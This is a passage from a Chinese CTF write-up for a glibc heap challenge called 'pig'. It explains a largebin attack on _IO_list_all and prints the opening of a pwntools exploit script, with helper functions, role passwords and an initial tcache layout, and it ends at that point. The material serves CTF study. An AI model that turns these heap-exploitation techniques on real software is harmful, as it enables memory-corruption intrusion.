 网上的解决方案是：再填另一个tcache，两次用不同的unsortedbin切割，但是这种方法比较浪费次数

同时，经过计算、微调，我这里切下来的smallbin的fd和bk刚好位于chunk1->7,1->8的可写区域

#### 2

> 改到_IO_list_all的指针后，如何修改内容？

本题比较阴间的地方是，不能完整地修改一个堆块

好在出题人给add3加了一个gift,可以申请一个0xe8的完整可写的堆块

所以最后可以把largebin attack指向的largebin留着，完成add3的最后一步，使得daddy从这个largechunk中切一块，从而直接获得完整的修改权限

下策是修改large chunk的chain指针，使其指向可写堆块

### 布局

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import*

context(os = 'linux', arch = 'amd64', log_level = 'debug', terminal = ['tmux', 'new-window'])
def debug(cmd=''):
	cmd += ""
	gdb.attach(p, cmd)
	pause()

host = ""
port = 0
p = process("./pig")
# libc=ELF("./libc.so.6")
#p = remote(host, port)

def add(size, content): #0xa0-0x430
	p.sendlineafter("Choice: ", "1")
	p.sendlineafter("size: ", str(size).encode())
	p.sendafter("message: ", content)
def view(index):
	p.sendlineafter("Choice: ", "2")
	p.sendlineafter("index: ", str(index).encode())
def edit(index, content):
	p.sendlineafter("Choice: ", "3")
	p.sendlineafter("index: ", str(index).encode())
	p.sendafter("message: ", content)
def delet(index):
	p.sendlineafter("Choice: ", "4")
	p.sendlineafter("index: ", str(index).encode())
def change(role):
	p.sendlineafter("Choice: ", "5")
	if role == 1:
		p.sendlineafter("user:\n", "A39275120")
	elif role == 2:
		p.sendlineafter("user:\n", "B3332073")
	elif role == 3:
		p.sendlineafter("user:\n", "C75929410")

#tcache 0xa0
change(2)
add(0xa0, cyclic(0x30))
add(0xa0, cyclic(0x30))
add(0xa0, cyclic(0x30))
add(0xa0, cyclic(0x30))
add(0xa0, cyclic(0x30))#2->4

#unsortedbin->smallbin
```